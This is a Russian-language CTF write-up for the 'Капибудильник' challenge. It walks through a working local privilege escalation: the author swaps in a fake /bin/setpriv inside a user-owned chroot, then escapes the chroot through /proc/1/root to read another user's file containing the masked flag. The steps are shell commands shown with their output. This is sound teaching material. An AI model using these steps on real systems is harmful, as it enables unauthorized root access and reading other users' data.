



# Капибудильник


## Описание

> В Капибаровске наступил сезон дождей. Под звуки капель по стеклу так сладко спится, что жители выключают свои будильники даже не просыпаясь и опаздывают на работу.
> 
> Получите доступ к обновлениям их умных капибудильников и заблокируйте функцию отключения. Будильники скачивают обновления с сервиса CapyFile Sharing у пользователя clock.
> 
> Мы зарегистрировали тебе аккаунт по соседству на этом сервисе, подключайся скорее. Дела не ждут!

И дали исходники панели: [cfsd.tar.gz](give/cfsd/)

## Решение

### Осматриваемся

Логинимся и видим TUI панель, с выбором действий и содержимым файла.  



Можно открыть ascii картинки:




Можно выбрать `Выберете действие - Открыть терминал - posix shell` и тогда проваливаемся в шелл:
```sh
/ $ ls -laht
total 24K
drwxr-sr-x    7 u214528  u214528     4.0K Apr 20 17:10 .
drwxr-sr-x    7 u214528  u214528     4.0K Apr 20 17:10 ..
drwxr-xr-x    2 0        0           4.0K Apr 20 17:10 etc
dr-xr-xr-x  738 0        0              0 Apr 20 17:10 proc
drwxr-xr-x    2 0        0           4.0K Apr 15 22:20 bin
drwxr-xr-x    2 0        0           4.0K Apr 15 22:20 lib
drwxr-xr-x    4 u214528  u214528     4.0K Apr 15 21:50 files
```
Мы зашли под юзером `u214528` и сейчас в корне (причём мы им владеем). Ещё здесь есть рутовые бинари:
```sh
/ $ ls -l bin
total 828
-rwxr-xr-x    1 0        0           808712 Apr 15 22:20 busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 cat -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 chmod -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 cp -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 find -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 id -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 ln -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 ls -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 mkdir -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 mv -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 ps -> busybox
-rwxr-xr-x    1 0        0            34712 Apr 15 22:20 setpriv
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 sh -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 wget -> busybox
```

и `/proc`:
```sh
/ $ ps aux
PID   USER     TIME  COMMAND
    1 0         0:00 timeout -s 9 10m tini -s -- env GOMAXPROCS=7 /opt/cfsd/panel
   19 0         0:00 tini -s -- env GOMAXPROCS=7 /opt/cfsd/panel
   20 0         0:00 /opt/cfsd/panel
   34 u214528   0:00 /bin/sh
   38 u214528   0:00 ps aux
```

Что интересно, панель исполняется от рута, а шелл от `u214528`.

### LPE

Смотрим в исходники панели:
- [cfsd/cmd/panel/main.go](./give/cfsd/cmd/panel/main.go) - запускается tui программу
- [cfsd/tui](./give/cfsd/tui/) - исходники tui интерфейса
- [cfsd/internal/command/factory.go](./give/cfsd/internal/command/factory.go) - а вот тут формируются команды для исполнения, в том числе posix shell.

Получается, все команды исполняются так:
```sh
/usr/sbin/chroot /home/u214528 /bin/setpriv --nnp --regid 1001 --reuid 1001 --clear-groups --reset-env <cmd>
```
Что происходит:
1. Панель спавнит новый процесс, который является `chroot`
2. Процесс перемешается в новый рут: `/home/u214528`
3. И исполняет команду внутри нового рута `/bin/setpriv`, которая по всей видимости сбрасывает привилегии.
4. Затем исполняется произвольная команда

Итак у нас чрут и дроп привилегий, привилегии дропаются с помощью бинаря `/bin/setpriv`, который на самом деле `/home/u214528/bin/setpriv`.

Хмм, но при этом мы владельцы чрута, где находится директория `/bin`. Это значит мы можем её переименовывать и подсунуть свой `setpriv`!

Пробуем:
```sh
/ $ mv bin bin2
/ $ bin2/mkdir bin
/ $ bin2/cp /bin2/sh /bin/sh
/ $ bin2/cat > /bin/setpriv
#!/bin/sh

/bin/sh
/ $ /bin2/chmod +x /bin/setpriv
```

Получаем такой лейаут диры:
```sh
/ $ /bin2/ls -la bin
total 804
drwxr-sr-x    2 u214528  u214528       4096 Apr 20 17:29 .
drwxr-sr-x    8 u214528  u214528       4096 Apr 20 17:29 ..
-rwxr-xr-x    1 u214528  u214528         19 Apr 20 17:29 setpriv
-rwxr-xr-x    1 u214528  u214528     808712 Apr 20 17:29 sh
```

Выходим (ctrl+d) и заходим обратно в шелл:
```sh
/ # bin2/id
uid=0 gid=0 groups=0,1,2,3,4,6,10,11,20,26,27
```

Опа, теперь мы рут!

### Jail escape

Раз мы теперь рут, то мы можем посмотреть `/proc` процессов от рута. Внутри прока есть директории `/proc/<pid>/root`.  
Залистим что там есть:

```sh
/ # bin2/ls /proc/*/root/
/proc/1/root/:
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var

/proc/19/root/:
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var

/proc/20/root/:
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var

/proc/41/root/:
bin    bin2   etc    files  lib    proc

/proc/42/root/:
bin    bin2   etc    files  lib    proc

/proc/self/root/:
bin    bin2   etc    files  lib    proc

/proc/thread-self/root/:
bin    bin2   etc    files  lib    proc
```

Процессы 1, 19 и 20 явно не чрута. А это значит, что можно сделать чрут в них:
```sh
/ # bin2/busybox chroot /proc/1/root/
/ # ls -l
total 80
drwxr-xr-x   1 root root 4096 Apr 15 22:20 bin
drwxr-xr-x   5 root root  360 Apr 20 17:29 dev
drwxr-xr-x   1 root root 4096 Apr 20 17:29 etc
drwxr-xr-x   1 root root 4096 Apr 20 17:29 home
drwxr-xr-x   1 root root 4096 Feb 13 23:04 lib
drwxr-xr-x   5 root root 4096 Feb 13 23:04 media
drwxr-xr-x   2 root root 4096 Feb 13 23:04 mnt
drwxr-xr-x   1 root root 4096 Apr 15 22:20 opt
dr-xr-xr-x 674 root root    0 Apr 20 17:29 proc
drwx------   1 root root 4096 Apr 20 17:33 root
drwxr-xr-x   1 root root 4096 Apr 20 17:29 run
drwxr-xr-x   1 root root 4096 Apr 15 22:20 sbin
drwxr-xr-x   2 root root 4096 Feb 13 23:04 srv
dr-xr-xr-x  13 root root    0 Apr 20 17:29 sys
drwxrwxrwt   2 root root 4096 Feb 13 23:04 tmp
drwxr-xr-x   1 root root 4096 Apr 15 22:20 usr
drwxr-xr-x   1 root root 4096 Feb 13 23:04 var
```

Вылезли и смотрим, что там по пользователям:
```sh
/ # ls -l /home
total 20
drwxr-sr-x 1 clock   clock   4096 Apr 15 22:20 clock
drwxr-xr-x 1 root    root    4096 Apr 15 22:20 template
drwxr-sr-x 8 u214528 u214528 4096 Apr 20 17:29 u214528
```

Ога, `clock` на месте, как и говорилось в легенде.  
Смотрим все его файлы:

```sh
/ # du -a /home/clock/files
352     /home/clock/files/capi/yuzu.jpg
124     /home/clock/files/capi/chill.jpeg
104     /home/clock/files/capi/safe.jpg
584     /home/clock/files/capi
28      /home/clock/files/linux/logo2.jpg
8       /home/clock/files/linux/capi_linux.md
40      /home/clock/files/linux
4       /home/clock/files/speech.md
4       /home/clock/files/patch_out_snoozing.txt
636     /home/clock/files
```

Есть какой-то интересный файл: `/home/clock/files/patch_out_snoozing.txt`.  
Смотрим в него и забираем флаг:
```sh
/ # cat /home/clock/files/patch_out_snoozing.txt
=== Утром капибары ===
1. качают пресс
2. бегут по территории
3. занимаются на турнике
4. отдыхают на берегу

Днём сдают флаг: tctf{xxxxxxxxxxxxxxxxxxxxxxxxxxx}

=== Вечером капибары ===
1. качают пресс
2. бегут по территории
3. занимаются на турнике
4. отдыхают на берегу
5. поднимают гантели
```
